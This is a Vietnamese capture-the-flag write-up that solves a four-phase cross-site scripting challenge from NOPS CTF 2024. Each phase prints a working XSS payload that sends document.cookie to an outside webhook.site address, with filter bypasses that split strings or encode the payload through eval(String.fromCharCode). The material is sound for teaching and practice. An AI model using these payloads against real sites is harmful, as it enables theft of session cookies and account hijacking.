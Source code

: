 # Đề bài:
![Screenshot (535)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/30a6be2a-76e9-4633-a8dd-cb8f77c55f27)

# Giao diện trang web:
![Screenshot (536)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/92857624-674a-4b31-a89f-34dae838056b)

# Note:
- Bài này mình sử dụng webhook để nhận respone
- Sau khi bấm send, quay lại trang webhook để xem kết quả

# Khai thác:
- Bài này có 4 phase, chúng ta sẽ đi qua từng phase 1
### Phase 1:
- Bài này là xss, với phase 1 không có filter thì ta có thể tự do trong việc chọn payload
- Payload phase 1: ```<img src=0 onerror='document.location="https://webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd="+document.cookie'>```

- Sau khi bấm send,ta nhận được cookie: ```xss2=/bf2a73106a3aa48bab9b8b47e4bd350e```
### Phase 2:
![Screenshot (537)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/c30df7df-5f0d-46a8-8f22-a91355f92a38)

- Ở phase 2, nếu trong payload có script, img hoặc svg thì nó sẽ xóa chữ đó đi, ở đây ta có 2 hướng giải:
   
    - Hướng 1: Sử dụng kiểu payload <imimgg , sau khi qua filter, nó còn lại thẻ img

        - Payload: ```<imimgg src=0 onerror='document.location="https://webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd="+document.cookie'>```

    - Hướng 2: Sử dụng 1 thẻ khác ngoài 3 thẻ trên:

        - Payload: ```<style>@keyframes x{}</style><code style="animation-name:x" onanimationend='document.location="https://webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd="+document.cookie
'></code>```

- Sau khi bấm send,ta nhận được cookie: ```xss3=/3e79c8a64bd10f5fa897b7832384f043```
### Phase 3:
![Screenshot (538)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/f19cacfa-6b6f-4577-8f8a-8426c87f1852)

- Ở phase 3, chúng ta có 1 filter hoàn toàn khác khi mà xích document, cookie và dấu :// và filter của phase 2

- Với document.cookie, có rất nhiều cách để bypass cái này, ở đây em sử dụng 1 payload em tìm được trên payloadllthething
     - Payload: ```window["doc"+"ument"]["coo"+"kie"]```

- Với dấu ://, em sử dụng fetch để lách luật

- Tổng kết, ta có payload(Không hiểu sao dấu + lại không được nên em sử dụng .concat để thay thế):
     - Payload: ```<style>@keyframes x{}</style><code style="animation-name:x" onanimationend=fetch('//webhook.site/c16cb117-4dd9-4020-81cf-59f35d3853c3?cmd='.concat(window["doc"+"ument"]["coo"+"kie"]))></code>```

- Chúng ta còn 1 cách khác, đó là encode nó, có rất nhiều cách để làm việc đó, một trong số đó là ```eval(String.FromCharCode())```
     - Payload nếu encode: ```<imimgg src=0 onerror='eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,55,55,101,52,56,51,57,45,102,50,102,50,45,52,101,49,97,45,98,100,53,48,45,101,97,50,53,55,51,49,49,56,53,52,56,63,99,109,100,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))'>```

- Dãy số trên mang ý nghĩa là:

![Screenshot (540)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/e810d9dd-1fd8-44f7-b396-6d5298c6eab7)

- Sau khi bấm send, ta nhận được cookie: xss4=/f40e749b80cff27f8e726b2a95740dd6
### Phase 4:
![Screenshot (492)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/dcfaf19b-eb10-45fd-82a2-d0c66347e7a3)

- Ở phase 4, thật sự mọi thứ đã khó hơn rất nhiều khi web đã filter dấu ", + và /

- Thực sự thì filter này đã gây ra cho em rất nhiều khó khăn, và em phải chọn phương án đi xin hint

- Hint: Sử dụng eval(String.fromCharCode())

- Để bypass thì em sẽ xài cách encode như em đã trình bày ở phase 3

- #### Payload:
```
<video src=0 onerror='eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,57,55,55,101,52,56,51,57,45,102,50,102,50,45,52,101,49,97,45,98,100,53,48,45,101,97,50,53,55,51,49,49,56,53,52,56,63,99,109,100,61,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))'>
```

### Kết quả cuối cùng
- Sau khi bấm send ở xss 4, ta nhận được flag:

![Screenshot (497)](https://github.com/anhshidou/nopsctf-2024/assets/152991010/15da2952-5361-4e98-859d-1c0f600b52fd)

# Flag:
N0PS{cR05s_S1t3_Pr0_5cR1pT1nG}
